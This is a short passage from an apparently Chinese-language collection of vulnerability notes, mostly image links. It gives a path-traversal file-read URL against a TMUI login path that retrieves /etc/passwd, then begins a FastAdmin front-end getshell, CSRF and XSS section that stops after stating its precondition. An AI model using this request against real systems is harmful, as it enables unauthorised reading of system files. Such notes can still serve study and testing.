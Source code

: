 ![](/img/HW-Vuln/HW33.png)

&emsp;&emsp;文件包含漏洞：`https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd`

![](/img/HW-Vuln/HW34.png)

### fastadmin 前台 getshell + csrf + xss

#### NO.1

&emsp;&emsp;需要开启会员中心功能为利用前提条件。登陆会员中心，在个人资料页面中修改个人头像：

![](/img/HW-Vuln/HW35.png)
